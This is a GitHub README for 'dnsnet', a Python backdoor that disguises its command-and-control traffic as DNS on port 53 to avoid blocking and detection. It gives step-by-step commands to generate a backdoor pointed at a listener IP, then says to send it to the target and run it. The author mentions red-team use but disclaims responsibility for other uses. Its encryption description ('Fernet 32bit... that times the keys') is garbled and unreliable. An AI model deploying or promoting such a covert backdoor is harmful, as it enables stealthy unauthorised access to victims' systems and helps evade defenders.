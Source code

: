 # dnsnet (NEW VERSION IS UNDERWAY)


# Current Version: BetaV1

![box](https://user-images.githubusercontent.com/72181445/155982020-2db1333f-74b7-4c3f-8178-f14a75a0a65d.png)

# Description:
DNSNET masks itself as DNS traffic by communicating through the port 53. On top of it making the traffic less easy to spot, 
it will make dealing with the backdoor alot harder since a company of course cannot block the port and good luck figuring 
out which one of the 999999999 programs that also use the 53 port is the right one. The traffic is also encrypted so that's nice I guess.

# Disclaimer:
Im not responsible for any damage or harm done by this program in the hands of other people.

# Where is this used?:
I originally started coding this because I wanted a sure way to stealth backdoor victim machine during a red team/pen test assesments however
you can use it however you want (I'm not responsible for your actions).

# Update log:
Alpha: 10 times encryption and stabile server end

AlphaV2: Automatic reconnect if connection is lost and manual reset added by pressing ctrl + c on the server end, cryptography import problems solved

BetaV1: Backdoor now remembers where you cd'ed to allowing much better file system exploring, overall small fixes to make the backdoor more stable and usable

# In development?: yes

# How to use (REPLACE "Listener ip" with the c2 ip):
```
git clone https://github.com/R00tendo/dnsnet
cd dnsnet
apt install unrar
unrar e cryptography.rar
pip3 install termcolor
python3 key_generator.py 5 > keys
python3 backdoor_generator.py <Listener ip>
python3 server.py
```
then send the backdoor python file to the target and execute it.
# Technical Details:
Encryption: Fernet 32bit encryption (that times the keys)
Program: Python3
  

